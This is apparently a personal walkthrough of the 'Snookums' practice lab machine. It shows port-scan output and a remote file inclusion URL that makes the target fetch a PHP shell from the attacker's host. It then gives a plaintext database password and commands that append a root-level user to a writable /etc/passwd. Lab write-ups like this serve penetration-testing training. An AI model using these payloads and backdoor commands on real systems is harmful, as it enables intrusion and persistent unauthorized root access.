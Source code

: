 Linux ttl=61
# rustscan

```
PORT      STATE SERVICE      REASON
21/tcp    open  ftp          syn-ack ttl 61
22/tcp    open  ssh          syn-ack ttl 61
80/tcp    open  http         syn-ack ttl 61
111/tcp   open  rpcbind      syn-ack ttl 61
139/tcp   open  netbios-ssn  syn-ack ttl 61
445/tcp   open  microsoft-ds syn-ack ttl 61
3306/tcp  open  mysql        syn-ack ttl 61
33060/tcp open  mysqlx       syn-ack ttl 61
```

# nmap

```
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp         vsftpd 3.0.2
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.45.171
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.2 - secure, fast, stable
|_End of status
22/tcp    open  ssh         OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 4a:79:67:12:c7:ec:13:3a:96:bd:d3:b4:7c:f3:95:15 (RSA)
|   256 a8:a3:a7:88:cf:37:27:b5:4d:45:13:79:db:d2:ba:cb (ECDSA)
|_  256 f2:07:13:19:1f:29:de:19:48:7c:db:45:99:f9:cd:3e (ED25519)
80/tcp    open  http        Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Simple PHP Photo Gallery
111/tcp   open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp   open  netbios-ssn Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp  open  mysql       MySQL (unauthorized)
33060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq, X11Probe, afp: 
|     Invalid message"
|_    HY000
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port33060-TCP:V=7.94SVN%I=7%D=6/26%Time=667BF087%P=x86_64-pc-linux-gnu%
SF:r(NULL,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(GenericLines,9,"\x05\0\0\0\x
SF:0b\x08\x05\x1a\0")%r(GetRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(HTT
SF:POptions,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(RTSPRequest,9,"\x05\0\0\0\
SF:x0b\x08\x05\x1a\0")%r(RPCCheck,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSV
SF:ersionBindReqTCP,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(DNSStatusRequestTC
SF:P,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x
SF:0fInvalid\x20message\"\x05HY000")%r(Help,9,"\x05\0\0\0\x0b\x08\x05\x1a\
SF:0")%r(SSLSessionReq,2B,"\x05\0\0\0\x0b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\
SF:x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY000")%r(TerminalServerCoo
SF:kie,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(TLSSessionReq,2B,"\x05\0\0\0\x0
SF:b\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20messag
SF:e\"\x05HY000")%r(Kerberos,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SMBProgNe
SF:g,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(X11Probe,2B,"\x05\0\0\0\x0b\x08\x
SF:05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05
SF:HY000")%r(FourOhFourRequest,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LPDStri
SF:ng,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LDAPSearchReq,2B,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message
SF:\"\x05HY000")%r(LDAPBindReq,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(SIPOpti
SF:ons,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(LANDesk-RC,9,"\x05\0\0\0\x0b\x0
SF:8\x05\x1a\0")%r(TerminalServer,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NCP,
SF:9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(NotesRPC,2B,"\x05\0\0\0\x0b\x08\x05
SF:\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message\"\x05HY
SF:000")%r(JavaRMI,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(WMSRequest,9,"\x05\
SF:0\0\0\x0b\x08\x05\x1a\0")%r(oracle-tns,9,"\x05\0\0\0\x0b\x08\x05\x1a\0"
SF:)%r(ms-sql-s,9,"\x05\0\0\0\x0b\x08\x05\x1a\0")%r(afp,2B,"\x05\0\0\0\x0b
SF:\x08\x05\x1a\0\x1e\0\0\0\x01\x08\x01\x10\x88'\x1a\x0fInvalid\x20message
SF:\"\x05HY000")%r(giop,9,"\x05\0\0\0\x0b\x08\x05\x1a\0");
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Linux 3.X|4.X (88%)
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4.4
Aggressive OS guesses: Linux 3.10 - 3.12 (88%), Linux 4.4 (88%), Linux 4.9 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: Host: SNOOKUMS; OS: Unix

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.10.4)
|   Computer name: snookums
|   NetBIOS computer name: SNOOKUMS\x00
|   Domain name: \x00
|   FQDN: snookums
|_  System time: 2024-06-26T06:42:42-04:00
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-06-26T10:42:41
|_  start_date: N/A
|_clock-skew: mean: 1h20m00s, deviation: 2h18m35s, median: 0s
```

# initial

https://www.exploit-db.com/exploits/7786

tried to run this as it came first but no luck with LFI

then look at walkthrough and seen another exploit

https://www.exploit-db.com/exploits/48424

```
http://192.168.157.58/image.php?img=http://192.168.45.216/best_shell.php
```

and it gives me shell!

# priv esc

**PwnKit** haha

another way is, I knew there was mysql running and saw `db.php` and found database creds

```
mysql -u root -p
```

it prompt for password and enter password `MalapropDoffUtilize1337`

then got `michael` password from table

### lateral move

writable permission to `/etc/passwd`

generate password hash for the new user
```
openssl passwd -1 -salt $salt $password
```

for example, try to avoid the hashed password contain special character. The $ is unavoidable, that is the format of passwd hash.
```
openssl passwd -1 -salt aaa admin134
```

result hashed password
```
$1$aaa$2gZh60XPpDSkkMhy5ZfQ71
```

add the new user to /etc/passwd, remember to escape the special character $ by adding backslash \ infront it           **<--- Direct this**
```
echo "admin2:\$1\$aaa\$2gZh60XPpDSkkMhy5ZfQ71:0:0:test:/root:/bin/bash" >> /etc/passwd
```

switch to new created user
```
su admin2
```

![[Pasted image 20240626171038.png]]

https://medium.com/@0xrave/snookums-proving-ground-practice-walkthrough-0a8937c6aa2f